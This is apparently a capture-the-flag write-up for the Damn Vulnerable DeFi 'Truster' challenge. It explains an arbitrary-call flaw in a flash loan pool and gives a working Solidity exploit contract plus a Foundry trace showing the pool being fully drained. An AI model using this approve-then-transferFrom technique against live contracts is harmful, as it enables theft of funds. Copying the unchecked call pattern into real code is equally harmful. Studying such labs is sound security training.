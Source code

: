 # Truster Challenge

### Challenge:
More and more lending pools are offering flashloans. In this case, a new pool has launched that is offering flashloans of DVT tokens for free.

The pool holds 1 million DVT tokens. You have nothing.

To pass this challenge, **rescue all funds in the pool executing a single transaction**. Deposit the funds into the designated recovery account.

#### Smart Contract :
TrusterLender Pool: Offering flash loans of DVT tokens for free

### Vulnerability Explained:

In this Pool, the flash loan function is calling `target.functionCall(data)` in a low-level manner. The function call uses data that can be manipulated by an attacker to drain all the funds.

### Vulnerable Code:
```solidity
function flashLoan(
    uint256 amount,
    address borrower,
    address target,
    bytes calldata data
) external nonReentrant returns (bool) {
    uint256 balanceBefore = token.balanceOf(address(this));

    token.transfer(borrower, amount);
    target.functionCall(data); // Vulnerable is here, I smell it

    if (token.balanceOf(address(this)) < balanceBefore) {
        revert RepayFailed();
    }

    return true;
}
```
### Exploit strategy:
The attack strategy involves calling the approve function to grant the attacker permission to withdraw all tokens from the pool. The data is crafted using abi.encodeWithSignature("approve(address,uint256)", address(this), TOKENS_IN_POOL), which approves the attacker to transfer all the tokens from the pool. After approval, the attacker uses transferFrom to move the tokens to the recovery account.

### Exploit Code:
```solidity
function test_truster() public checkSolvedByPlayer {
    new TrusterExploiter(pool, token, recovery, TOKENS_IN_POOL);
}

// Exploiter Contract:
contract TrusterExploiter {
    constructor(
        TrusterLenderPool pool,
        DamnValuableToken token,
        address recovery,
        uint256 TOKENS_IN_POOL
    ) {
        bytes memory data = abi.encodeWithSignature(
            "approve(address,uint256)",
            address(this),
            TOKENS_IN_POOL
        );
        pool.flashLoan(0, address(this), address(token), data);
        token.transferFrom(address(pool), recovery, TOKENS_IN_POOL);
    }
}

``` 
### Proof of Exploit:
Check that the test case can easily understand the exploit:
```yaml
Ran 1 test for test/truster/Truster.t.sol:TrusterChallenge
[PASS] test_truster() (gas: 112277)
Traces:
  [139777] TrusterChallenge::test_truster()
    ├─ [0] VM::startPrank(player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C], player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C])
    │   └─ ← [Return]
    ├─ [86541] → new TrusterExploiter@0xce110ab5927CC46905460D930CCa0c6fB4666219
    │   ├─ [46555] TrusterLenderPool::flashLoan(0, TrusterExploiter: [0xce110ab5927CC46905460D930CCa0c6fB4666219], DamnValuableToken: [0x8Ad159a275AEE56fb2334DBb69036E9c7baCEe9b], 0x095ea7b3000000000000000000000000ce110ab5927cc46905460d930cca0c6fb466621900000000000000000000000000000000000000000000d3c21bcecceda1000000)
    │   │   ├─ [2802] DamnValuableToken::balanceOf(TrusterLenderPool: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264]) [staticcall]
    │   │   │   └─ ← [Return] 1000000000000000000000000 [1e24]
    │   │   ├─ [5651] DamnValuableToken::transfer(TrusterExploiter: [0xce110ab5927CC46905460D930CCa0c6fB4666219], 0)
    │   │   │   ├─ emit Transfer(from: TrusterLenderPool: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], to: TrusterExploiter: [0xce110ab5927CC46905460D930CCa0c6fB4666219], amount: 0)
    │   │   │   └─ ← [Return] true
    │   │   ├─ [25079] DamnValuableToken::approve(TrusterExploiter: [0xce110ab5927CC46905460D930CCa0c6fB4666219], 1000000000000000000000000 [1e24])
    │   │   │   ├─ emit Approval(owner: TrusterLenderPool: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], spender: TrusterExploiter: [0xce110ab5927CC46905460D930CCa0c6fB4666219], amount: 1000000000000000000000000 [1e24])
    │   │   │   └─ ← [Return] 0x0000000000000000000000000000000000000000000000000000000000000001
    │   │   ├─ [802] DamnValuableToken::balanceOf(TrusterLenderPool: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264]) [staticcall]
    │   │   │   └─ ← [Return] 1000000000000000000000000 [1e24]
    │   │   └─ ← [Return] true
    │   ├─ [29354] DamnValuableToken::transferFrom(TrusterLenderPool: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], recovery: [0x73030B99950fB19C6A813465E58A0BcA5487FBEa], 1000000000000000000000000 [1e24])
    │   │   ├─ emit Transfer(from: TrusterLenderPool: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], to: recovery: [0x73030B99950fB19C6A813465E58A0BcA5487FBEa], amount: 1000000000000000000000000 [1e24])
    │   │   └─ ← [Return] 0x0000000000000000000000000000000000000000000000000000000000000001
    │   └─ ← [Return] 21 bytes of code
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return]
    ├─ [0] VM::getNonce(player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C]) [staticcall]
    │   └─ ← [Return] 1
    ├─ [0] VM::assertEq(1, 1, "Player executed more than one tx") [staticcall]
    │   └─ ← [Return]
    ├─ [802] DamnValuableToken::balanceOf(TrusterLenderPool: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264]) [staticcall]
    │   └─ ← [Return] 0
    ├─ [0] VM::assertEq(0, 0, "Pool still has tokens") [staticcall]
    │   └─ ← [Return]
    ├─ [802] DamnValuableToken::balanceOf(recovery: [0x73030B99950fB19C6A813465E58A0BcA5487FBEa]) [staticcall]
    │   └─ ← [Return] 1000000000000000000000000 [1e24]
    ├─ [0] VM::assertEq(1000000000000000000000000 [1e24], 1000000000000000000000000 [1e24], "Not enough tokens in recovery account") [staticcall]
    │   └─ ← [Return]
    └─ ← [Stop]

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 27.70ms (4.16ms CPU time)

```

🔗 **GitHub**: [View](https://github.com/BLOCK-PROGRAMR/SCATER70/tree/main/ctf/damn-vulnerable-defi)